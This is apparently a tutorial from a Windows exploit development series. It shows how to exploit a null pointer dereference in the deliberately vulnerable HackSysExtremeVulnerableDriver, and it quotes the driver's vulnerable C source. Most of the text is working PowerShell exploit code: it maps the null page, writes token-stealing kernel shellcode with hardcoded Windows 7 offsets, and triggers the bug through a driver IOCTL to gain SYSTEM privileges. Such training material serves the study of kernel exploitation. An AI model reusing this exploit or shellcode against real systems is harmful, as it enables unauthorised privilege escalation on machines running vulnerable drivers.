







NTSTATUS TriggerNullPointerDereference(IN PVOID UserBuffer) {
ULONG UserValue = 0;
ULONG MagicValue = 0xBAD0B0B0;
NTSTATUS Status = STATUS_SUCCESS;
PNULL_POINTER_DEREFERENCE NullPointerDereference = NULL;
PAGED_CODE();
__try {
// Verify if the buffer resides in user mode
ProbeForRead(UserBuffer,
sizeof(NULL_POINTER_DEREFERENCE),
(ULONG)__alignof(NULL_POINTER_DEREFERENCE));
// Allocate Pool chunk
NullPointerDereference = (PNULL_POINTER_DEREFERENCE)
ExAllocatePoolWithTag(NonPagedPool,
sizeof(NULL_POINTER_DEREFERENCE),
(ULONG)POOL_TAG);
if (!NullPointerDereference) {
// Unable to allocate Pool chunk
DbgPrint("[-] Unable to allocate Pool chunk\n");
Status = STATUS_NO_MEMORY;
return Status;
}
else {
DbgPrint("[+] Pool Tag: %s\n", STRINGIFY(POOL_TAG));
DbgPrint("[+] Pool Type: %s\n", STRINGIFY(NonPagedPool));
DbgPrint("[+] Pool Size: 0x%X\n", sizeof(NULL_POINTER_DEREFERENCE));
DbgPrint("[+] Pool Chunk: 0x%p\n", NullPointerDereference);
}
// Get the value from user mode
UserValue = *(PULONG)UserBuffer;
DbgPrint("[+] UserValue: 0x%p\n", UserValue);
DbgPrint("[+] NullPointerDereference: 0x%p\n", NullPointerDereference);
// Validate the magic value
if (UserValue == MagicValue) {
NullPointerDereference->Value = UserValue;
NullPointerDereference->Callback = &NullPointerDereferenceObjectCallback;
DbgPrint("[+] NullPointerDereference->Value: 0x%p\n", NullPointerDereference->Value);
DbgPrint("[+] NullPointerDereference->Callback: 0x%p\n", NullPointerDereference->Callback);
}
else {
DbgPrint("[+] Freeing NullPointerDereference Object\n");
DbgPrint("[+] Pool Tag: %s\n", STRINGIFY(POOL_TAG));
DbgPrint("[+] Pool Chunk: 0x%p\n", NullPointerDereference);
// Free the allocated Pool chunk
ExFreePoolWithTag((PVOID)NullPointerDereference, (ULONG)POOL_TAG);
// Set to NULL to avoid dangling pointer
NullPointerDereference = NULL;
}
#ifdef SECURE
// Secure Note: This is secure because the developer is checking if
// 'NullPointerDereference' is not NULL before calling the callback function
if (NullPointerDereference) {
NullPointerDereference->Callback();
}
#else
DbgPrint("[+] Triggering Null Pointer Dereference\n");
// Vulnerability Note: This is a vanilla Null Pointer Dereference vulnerability
// because the developer is not validating if 'NullPointerDereference' is NULL
// before calling the callback function
NullPointerDereference->Callback();
#endif
}
__except (EXCEPTION_EXECUTE_HANDLER) {
Status = GetExceptionCode();
DbgPrint("[-] Exception Code: 0x%X\n", Status);
}
return Status;
}
Part 12: Kernel Exploitation -> Null Pointer Dereference
Hola, and welcome back to part 12 of the Windows exploit development tutorial series. Today we have another rapid-fire post on exploiting a null pointer dereference in @HackSysTeam's extreme vulnerable driver. For more details on setting up the debugging environment see part 10. Let's get to it!
Resources:
+ HackSysExtremeVulnerableDriver (hacksysteam) - here
+ EMET - here
+ Small Hax to avoid crashing ur prog - here
Recon the challenge
Let's have a look at part of the vulnerable function in question (here).
Ok, so we have a check on a magic value, if it succeeds we print the value and the callback function (this is normal execution flow). If the check fails we free the pool tag and null the pointer. Up to there there is no issue but then, in the vulnerable version, the driver simply calls the callback function without checking if it was previously nulled!
The IOCTL for this function is 0x22202B. To see how the IOCTL can be identified, please check out part 10 and part 11 of this series. Let's quickly jump into IDA and have a look at the function.

So, in theory, if we call the TriggerNullPointerDereference function and pass in the magic value we should execute the function in an expected manner and not trigger the null pointer dereference. We can test this out with the following POC.
Add-Type -TypeDefinition @"
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Security.Principal;
public static class EVD
{
[DllImport("kernel32.dll", CharSet = CharSet.Auto, SetLastError = true)]
public static extern IntPtr CreateFile(
String lpFileName,
UInt32 dwDesiredAccess,
UInt32 dwShareMode,
IntPtr lpSecurityAttributes,
UInt32 dwCreationDisposition,
UInt32 dwFlagsAndAttributes,
IntPtr hTemplateFile);
[DllImport("Kernel32.dll", SetLastError = true)]
public static extern bool DeviceIoControl(
IntPtr hDevice,
int IoControlCode,
byte[] InBuffer,
int nInBufferSize,
byte[] OutBuffer,
int nOutBufferSize,
ref int pBytesReturned,
IntPtr Overlapped);
[DllImport("kernel32.dll")]
public static extern uint GetLastError();
}
"@
$hDevice = [EVD]::CreateFile("\\.\HacksysExtremeVulnerableDriver", [System.IO.FileAccess]::ReadWrite,
[System.IO.FileShare]::ReadWrite, [System.IntPtr]::Zero, 0x3, 0x40000080, [System.IntPtr]::Zero)
if ($hDevice -eq -1) {
echo "`n[!] Unable to get driver handle..`n"
Return
} else {
echo "`n[>] Driver information.."
echo "[+] lpFileName: \\.\HacksysExtremeVulnerableDriver"
echo "[+] Handle: $hDevice"
}
$Buffer = [System.BitConverter]::GetBytes(0xbad0b0b0)
echo "`n[>] Sending buffer.."
echo "[+] Buffer length: $($Buffer.Length)"
echo "[+] IOCTL: 0x22202B`n"
[EVD]::DeviceIoControl($hDevice, 0x22202B, $Buffer, $Buffer.Length, $null, 0, [ref]0, [System.IntPtr]::Zero)
|Out-null

Perfect, no crash, no exception triggered. If the magic value does not match we enter a block where the callback function pointer is nulled.

After this operation we jump to the next instruction block where the null pointer dereference is triggered.

Ok, let's break on that call and verify our theory! All we need to do is pass the driver a magic value which will fail the comparison (eg: 0xdeadb33f).

As expected, we trigger the null pointer dereference. You may have noticed from the C++ code above that there is a driver exception handler at work here. This is nice because be don't end up BSOD'ing the box!
Pwn all the things!
NtAllocateVirtualMemory
The only real trick here is how to allocate a dword at 0x00000004. I strongly recommend that you have a quick look at this, most amusing and illuminating, post on rohitab.

Unlike on linux, Windows allows low-priv users to map the null page within the context of the user process. This functionality is a bit obscured in the sense that both VirtualAlloc and VirtualAllocEx return access denied if the base address of the allocation is less than 0x00001000. However, no such restriction applies to the undocumented NtAllocateVirtualMemory function. The following code can be used to illustrate this.
Add-Type -TypeDefinition @"
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Security.Principal;
public static class EVD
{
[DllImport("ntdll.dll")]
public static extern uint NtAllocateVirtualMemory(
IntPtr ProcessHandle,
ref IntPtr BaseAddress,
uint ZeroBits,
ref UInt32 AllocationSize,
UInt32 AllocationType,
UInt32 Protect);
}
"@
echo "`n[>] Allocating process null page.."
[IntPtr]$ProcHandle = (Get-Process -Id ([System.Diagnostics.Process]::GetCurrentProcess().Id)).Handle
[IntPtr]$BaseAddress = 0x1 # Rounded down to 0x00000000
[UInt32]$AllocationSize = 2048 # 2kb, seems like a nice number
$CallResult = [EVD]::NtAllocateVirtualMemory($ProcHandle, [ref]$BaseAddress, 0, [ref]$AllocationSize, 0x3000, 0x40)
if ($CallResult -ne 0) {
echo "[!] Failed to allocate null-page..`n"
Return
} else {
echo "[+] Success"
}
While the post above may seem a bit ridiculous the author unintentionally makes a good point. Pre-allocating the null page would prevent exploitation of null pointer dereference vulnerabilities (EMET does this)..
Shellcode
We can reuse the token stealing shellcode we created for the previous post. No changes are needed this time as we are hijacking another function call.
$Shellcode = [Byte[]] @( #---[Setup] 0x60, # pushad 0x64, 0xA1, 0x24, 0x01, 0x00, 0x00, # mov eax, fs:[KTHREAD_OFFSET] 0x8B, 0x40, 0x50, # mov eax, [eax + EPROCESS_OFFSET] 0x89, 0xC1, # mov ecx, eax (Current _EPROCESS structure) 0x8B, 0x98, 0xF8, 0x00, 0x00, 0x00, # mov ebx, [eax + TOKEN_OFFSET] #---[Copy System PID token] 0xBA, 0x04, 0x00, 0x00, 0x00, # mov edx, 4 (SYSTEM PID) 0x8B, 0x80, 0xB8, 0x00, 0x00, 0x00, # mov eax, [eax + FLINK_OFFSET] <-| 0x2D, 0xB8, 0x00, 0x00, 0x00, # sub eax, FLINK_OFFSET | 0x39, 0x90, 0xB4, 0x00, 0x00, 0x00, # cmp [eax + PID_OFFSET], edx | 0x75, 0xED, # jnz ->| 0x8B, 0x90, 0xF8, 0x00, 0x00, 0x00, # mov edx, [eax + TOKEN_OFFSET] 0x89, 0x91, 0xF8, 0x00, 0x00, 0x00, # mov [ecx + TOKEN_OFFSET], edx #---[Recover] 0x61, # popad 0xC3 # ret )
Setup
Just to clarify the general setup of our exploit, we will: (1) put our shellcode in memory somewhere, (2) allocate memory at the program's null page, (3) write the address of our shellcode at [IntPtr]0x00000004 and (4) trigger the null pointer dereference.
Game Over
That should be the whole run-through, please refer to the full exploit below for more information.
Add-Type -TypeDefinition @"
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Security.Principal;
public static class EVD
{
[DllImport("ntdll.dll")]
public static extern uint NtAllocateVirtualMemory(
IntPtr ProcessHandle,
ref IntPtr BaseAddress,
uint ZeroBits,
ref UInt32 AllocationSize,
UInt32 AllocationType,
UInt32 Protect);
[DllImport("kernel32.dll", SetLastError = true)]
public static extern IntPtr VirtualAlloc(
IntPtr lpAddress,
uint dwSize,
UInt32 flAllocationType,
UInt32 flProtect);
[DllImport("kernel32.dll", CharSet = CharSet.Auto, SetLastError = true)]
public static extern IntPtr CreateFile(
String lpFileName,
UInt32 dwDesiredAccess,
UInt32 dwShareMode,
IntPtr lpSecurityAttributes,
UInt32 dwCreationDisposition,
UInt32 dwFlagsAndAttributes,
IntPtr hTemplateFile);
[DllImport("Kernel32.dll", SetLastError = true)]
public static extern bool DeviceIoControl(
IntPtr hDevice,
int IoControlCode,
byte[] InBuffer,
int nInBufferSize,
byte[] OutBuffer,
int nOutBufferSize,
ref int pBytesReturned,
IntPtr Overlapped);
[DllImport("kernel32.dll")]
public static extern uint GetLastError();
}
"@
# Compiled with Keystone-Engine
# Hardcoded offsets for Win7 x86 SP1
$Shellcode = [Byte[]] @(
#---[Setup]
0x60, # pushad
0x64, 0xA1, 0x24, 0x01, 0x00, 0x00, # mov eax, fs:[KTHREAD_OFFSET]
0x8B, 0x40, 0x50, # mov eax, [eax + EPROCESS_OFFSET]
0x89, 0xC1, # mov ecx, eax (Current _EPROCESS structure)
0x8B, 0x98, 0xF8, 0x00, 0x00, 0x00, # mov ebx, [eax + TOKEN_OFFSET]
#---[Copy System PID token]
0xBA, 0x04, 0x00, 0x00, 0x00, # mov edx, 4 (SYSTEM PID)
0x8B, 0x80, 0xB8, 0x00, 0x00, 0x00, # mov eax, [eax + FLINK_OFFSET] <-|
0x2D, 0xB8, 0x00, 0x00, 0x00, # sub eax, FLINK_OFFSET |
0x39, 0x90, 0xB4, 0x00, 0x00, 0x00, # cmp [eax + PID_OFFSET], edx |
0x75, 0xED, # jnz ->|
0x8B, 0x90, 0xF8, 0x00, 0x00, 0x00, # mov edx, [eax + TOKEN_OFFSET]
0x89, 0x91, 0xF8, 0x00, 0x00, 0x00, # mov [ecx + TOKEN_OFFSET], edx
#---[Recover]
0x61, # popad
0xC3 # ret
)
# Write shellcode to memory
echo "`n[>] Allocating ring0 payload.."
[IntPtr]$Pointer = [EVD]::VirtualAlloc([System.IntPtr]::Zero, $Shellcode.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($Shellcode, 0, $Pointer, $Shellcode.Length)
$ShellcodePointer = [System.BitConverter]::GetBytes($Pointer.ToInt32())
echo "[+] Payload size: $($Shellcode.Length)"
echo "[+] Payload address: 0x$("{0:X8}" -f $Pointer.ToInt32())"
# Allocate null-page
#---
# NtAllocateVirtualMemory must be used as VirtualAlloc
# will refuse a base address smaller than [IntPtr]0x1000
#---
echo "`n[>] Allocating process null page.."
[IntPtr]$ProcHandle = (Get-Process -Id ([System.Diagnostics.Process]::GetCurrentProcess().Id)).Handle
[IntPtr]$BaseAddress = 0x1 # Rounded down to 0x00000000
[UInt32]$AllocationSize = 2048 # 2kb, seems like a nice number
$CallResult = [EVD]::NtAllocateVirtualMemory($ProcHandle, [ref]$BaseAddress, 0, [ref]$AllocationSize, 0x3000, 0x40)
if ($CallResult -ne 0) {
echo "[!] Failed to allocate null-page..`n"
Return
} else {
echo "[+] Success"
}
echo "[+] Writing shellcode pointer to 0x00000004"
[System.Runtime.InteropServices.Marshal]::Copy($ShellcodePointer, 0, [IntPtr]0x4, $ShellcodePointer.Length)
# Get handle to driver
$hDevice = [EVD]::CreateFile("\\.\HacksysExtremeVulnerableDriver", [System.IO.FileAccess]::ReadWrite, [System.IO.FileShare]::ReadWrite, [System.IntPtr]::Zero, 0x3, 0x40000080, [System.IntPtr]::Zero)
if ($hDevice -eq -1) {
echo "`n[!] Unable to get driver handle..`n"
Return
} else {
echo "`n[>] Driver information.."
echo "[+] lpFileName: \\.\HacksysExtremeVulnerableDriver"
echo "[+] Handle: $hDevice"
}
#---
# To trigger the null-pointer dereference all we need to do
# is pass the compare at HackSysExtremeVulnerableDriver+0x4b61.
# As long as our magic value is not 0xbad0b0b0, we're good!
#---
$Buffer = [System.BitConverter]::GetBytes(0xdeadb33f) # Whatever value here..
echo "`n[>] Sending buffer.."
echo "[+] Buffer length: $($Buffer.Length)"
echo "[+] IOCTL: 0x22202B`n"
[EVD]::DeviceIoControl($hDevice, 0x22202B, $Buffer, $Buffer.Length, $null, 0, [ref]0, [System.IntPtr]::Zero) |Out-null
